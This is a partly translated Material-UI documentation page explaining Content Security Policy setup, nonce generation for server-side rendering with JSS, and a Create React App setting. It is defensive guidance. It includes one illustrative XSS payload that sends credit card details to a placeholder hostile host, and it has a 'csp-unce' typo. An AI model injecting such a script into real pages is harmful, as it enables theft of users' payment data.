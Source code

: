 # 内容安全策略（CSP）

<p class="description">This section covers the details of setting up a CSP.</p>

## 什么是 CSP，为什么它有用？

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. 此列表作为服务器的头部（heade）返回。 例如，假设您有一个托管在 `https://example.com` 的网站 CSP 头部 `default-src：'self';` 将仅加载 `https://example.com/*` 的所有资源，并否认所有其他人。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

此漏洞允许攻击者执行任何操作。 但是，若使用安全的 CSP 头部，浏览器将不会加载此脚本。

您可以在 [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 阅读有关 CSP 的更多信息。

## 如何实现CSP？

### Server-Side Rendering (SSR)

To use CSP with Material-UI (and JSS), you need to use a nonce. 随机数是一个随机生成的字符串，只使用一次，因此您需要添加服务器中间件以在每个请求上生成一个。 关于如何使用 Express 和 React Helmet 来实现，JSS 有一个[很棒的教程](https://github.com/cssinjs/jss/blob/master/docs/csp.md)。 关于一些基本的纲要，请继续阅读。

CSP nonce 是一个 Base 64 编码的字符串。 你可以生成这样一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string. 接下来您可以将此随机数应用于 CSP 头部。 应用了随机数时，CSP 头部可能看起来像这样：

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tag on the server.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

然后，您必须将此随机数传递给 JSS ，以便将其添加到后续 `<style>` 标记中。

这样的原理是通过将 `<meta property="csp-nonce" content={nonce} />` 标签传递到 HTML 的 `<head>` 中。 然后，通常情况下，JSS 寻找一个 `<meta property="csp-unce"` 标签，并使用 `content` 的值作为随机数。

下面是一个虚拟的头部（header）可以看起来的示例：

```html
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default. This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build. This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.
